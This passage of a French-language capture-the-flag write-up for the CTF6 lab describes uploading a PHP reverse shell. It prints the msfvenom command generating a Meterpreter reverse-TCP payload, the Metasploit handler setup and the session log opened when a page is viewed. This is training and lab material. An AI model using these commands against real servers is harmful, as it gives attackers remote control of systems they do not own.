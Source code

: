 Il est ainsi possible de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle. Le principe est le suivant : un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) en PHP va être créé et déposé sur le serveur. Ce bout de code va, dans un premier temps, créer une connexion sur le port 12345 entre le serveur CTF6 (192.168.56.101) et notre propre machine (192.168.56.102), avant d'envoyer un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=12345 -o shell.php
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1116 bytes
Saved as: shell.php
```

Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 12345.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole
                                                  
--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.102
LHOST => 192.168.56.102
msf exploit(multi/handler) > set LPORT 12345
LPORT => 12345

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.

[*] Started reverse TCP handler on 192.168.56.102:12345
```

Le simple fait de consulter la news sur le site Web amorce la connexion.

```console
msf exploit(multi/handler) > [*] Sending stage (37775 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:12345 -> 192.168.56.101:50145) at 2018-01-01 01:01:01 +0200

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                          Connection
  --  ----  ----                   -----------                          ----------
  1         meterpreter php/linux  apache (48) @ localhost.localdomain  192.168.56.102:12345 -> 192.168.56.101:50145 (192.168.56.101)
```
